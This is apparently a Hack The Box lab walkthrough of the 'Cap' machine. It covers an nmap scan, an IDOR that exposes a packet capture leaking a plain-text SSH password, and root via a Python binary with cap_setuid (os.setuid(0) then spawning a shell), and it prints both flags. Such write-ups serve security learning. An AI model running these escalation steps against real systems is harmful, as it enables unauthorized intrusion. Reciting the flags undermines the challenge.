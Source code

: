 # Cap

> Write-up author: jon-brandy

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC -Pn 10.10.10.245 -T4
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-12 10:06 PDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa80a9b2ca3b8869a4289e390d27d575 (RSA)
|   256 96d8f8e3e8f77136c549d59db6a4c90c (ECDSA)
|_  256 3fd0ff91eb3bf6e19f2e8ddeb3deb218 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:07:00 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 12 Aug 2023 17:06:54 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
|_http-server-header: gunicorn
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.93%I=7%D=8/12%Time=64D7BC2E%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,2F4C,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20
SF:Sat,\x2012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\
SF:nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20193
SF:86\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\">\
SF:n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x2
SF:0<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x20\
SF:x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<meta\
SF:x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-scale=
SF:1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"image
SF:/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x20<
SF:link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css\">
SF:\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/fon
SF:t-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20
SF:href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20rel=
SF:\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.min\.
SF:css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/c
SF:ss/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOption
SF:s,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Sat,\x2
SF:012\x20Aug\x202023\x2017:06:54\x20GMT\r\nConnection:\x20close\r\nConten
SF:t-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x20OP
SF:TIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20text
SF:/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\x20
SF:\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<body>\
SF:n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Invali
SF:d\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;RTSP
SF:/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,189
SF:,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x20S
SF:at,\x2012\x20Aug\x202023\x2017:07:00\x20GMT\r\nConnection:\x20close\r\n
SF:Content-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20232\
SF:r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\x20
SF:Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1>
SF:\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20ser
SF:ver\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x20ch
SF:eck\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.15 seconds
```

It seems the machine allows ssh login and there's a web application running. 

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85bce359-8ad2-455c-9e21-e1ff0bc6da61)


After clicked the security snapshot, I noticed there's an ID at the url.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d96dc3b-9be5-4925-a34d-47115df003dc)


Well it seems we can traverse to any network results, found the result that should be our interest at id 0.

> INTEREST (number of packets captured is larger then the others).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf964b57-90be-44b7-9ffc-2dc3138fcee8)


> WIRESHARK FILE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/39c02828-5452-403f-b9bb-2b5fccdb9a8a)


After followed through every tcp stream, found a cred at 3rd tcp stream.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a5c5f493-7475-4026-8233-8c9aa812e5dc)


Let's do ssh login.

> nathan:Buck3tH4TF0RM3!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/77201f6b-f429-48e6-be32-356481f94950)


> USER FLAG

```console
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
df948242cd2265ee3b0c7979f5995c29
nathan@cap:~$ 
```

## USER FLAG

```
df948242cd2265ee3b0c7979f5995c29
```

To get the root flag, maybe this is kinda unintended, based from the challenge title, it reminds me of `getcap` for python version.

> USING GETCAP TO IDENTIFY CAPABILITIES

```console
nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

The capabilities is not the default setting, `CAP_SETUID` allows the attacker to gain privesc without the `SUID` bit set. Here's how:

> PRIVILEGE ESCALATION

```console
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/sh')
# whoami
root
# 
```

We got root!

```console
# ls /root              
root.txt  snap
# cat /root/root.txt 
a2426fa1f3878250b8b12efe990ebc4a
# 
```

## ROOT FLAG

```
a2426fa1f3878250b8b12efe990ebc4a
```
